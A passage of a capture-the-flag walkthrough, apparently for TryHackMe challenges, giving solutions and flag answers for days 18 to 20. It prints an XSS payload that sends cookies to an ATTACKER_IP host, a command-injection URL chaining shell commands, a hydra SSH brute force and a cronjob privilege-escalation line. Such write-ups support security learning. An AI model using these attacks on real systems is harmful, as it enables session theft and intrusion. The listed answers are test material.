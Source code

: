 > THM{c8eeb0468febbadea859baeb33b2541b}

---

## *[Day 18] ELF JS*

Type this:

```html
</p><script>window.location = 'http://ATTACKER_IP:8000/page?param=' + document.cookie; </script><p>
```

as message, spin up a simple http server and wait for admin cookie.

- What is the admin's authid cookie value?

> 2564799a4e6689972f6d9e1c7b406f87065cbf65

---

## *[Day 19] Commands*

Type http://10.10.77.168:3000/api/cmd/id in the browser and see what happens.

- What are the contents of the user.txt file?

Payload: 

```
http://10.10.77.168:3000/api/cmd/cd%20home%20&&%20cd%20bestadmin%20&&%20cat%20user.txt
```

> 5W7WkjxBWwhe3RNsWJ3Q

---

## *[Day 20] Cronjob Privilege Escalation*

- What port is SSH running on?

```bash
$ sudo nmap 10.10.251.38 -Pn -p- -vv -T4 -A --min-parallelism 55 -oN nmap-scan
```

> 4567

- Crack sam's password and read flag1.txt

```bash
$ hydra -l sam -P ~/CyberSecurity/SecLists/Passwords/Leaked-Databases/rockyou.txt 10.10.251.38 ssh -V -I -s 4567
```

> THM{dec4389bc09669650f3479334532aeab}

- Escalate your privileges by taking advantage of a cronjob running every minute. What is flag2?

```bash
/home/scripts$ echo 'chmod +r /home/ubuntu/flag2.txt' >> clean_up.sh
```
